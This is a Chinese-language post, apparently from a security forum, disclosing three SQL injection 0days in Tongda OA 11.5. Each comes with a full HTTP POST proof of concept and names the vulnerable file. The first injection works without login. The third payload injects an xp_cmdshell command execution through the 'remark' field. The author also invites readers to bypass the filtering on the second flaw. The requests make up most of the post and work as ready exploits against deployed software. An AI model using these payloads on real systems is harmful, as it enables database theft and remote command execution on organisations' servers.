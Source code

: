 # 通达OA 多枚 0day漏洞 V2 附POC

这是继："【全网首发】通达OA 多枚 0day漏洞分享 附POC"   对通达OA 系统更加深入的一次审计，重新审计后又发现一些问题。

### 0x001 SQL注入 POC(11.5版本无需登录): 

漏洞参数：SORT_ID，FILE_SORT

审计版本：通达OA 11.5


```bash
POST /general/file_folder/swfupload_new.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/
Connection: close
Host: 192.168.202.1
Content-Length: 391
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

看看下图，在我去掉cookie之后，发现一样能注入，我测试的11.5版本存在未授权也能注入。

![](media/202008/15982327800781.jpg)


漏洞文件：webroot\general\file_folder\swfupload_new.php 。

先看SORT_ID与FILE_SORT参数，这两个参数都 是通过$data[""]; 来接收变量，都直接带入SQL查询语句中，没有做任何过滤，造成注入。

![](media/202008/15982327906892.jpg)


![](media/202008/15982327951049.jpg)


### 0x002 SQL注入 POC（有过滤）: 

漏洞参数：CONTENT_ID_STR

审计版本：通达OA 11.5


```bash
POST /general/file_folder/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/file_folder/public_folder.php?FILE_SORT=1&SORT_ID=59
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 82
x-wvs-id: Acunetix-Deepscan/209
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

CONTENT_ID_STR=222&SORT_ID=59&FILE_SORT=1&action=sign
```

![](media/202008/15982328222417.jpg)


漏洞文件：webroot\general\file_folder\folder.php。

但是经过了td_trim函数，会过滤掉：空格、制表符、换行符、回车符、垂直制表符等。只能报错，或尝试 and 等语句判断还是没有问题的。

![](media/202008/15982328339363.jpg)

![](media/202008/15982328376231.jpg)


如果有厉害的师傅会有戏，可以绕绕试试了，先放这里了。


![](media/202008/15982328458875.jpg)


### 0x003 SQL注入 POC: 

漏洞参数：remark

审计版本：通达OA 11.5


```bash
POST /general/appbuilder/web/meeting/meetingmanagement/meetingreceipt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/meeting/myapply/details.php?affair=true&id=5&nosign=true&reminding=true
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 97
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

m_id=5&join_flag=2&remark='%3b%20exec%20master%2e%2exp_cmdshell%20'ping%20172%2e10%2e1%2e255'--
```

![](media/202008/15982328654012.jpg)


漏洞文件：webroot\general\appbuilder\modules\meeting\models\MeetingReceipt.php。

漏洞存在于`$remark = $data['remark']; 与$form->REMARK = $remark; ` 可以看到remark参数没有过滤，直接拼接到insert语句中造成的注入。

via:tangshoupu@t00ls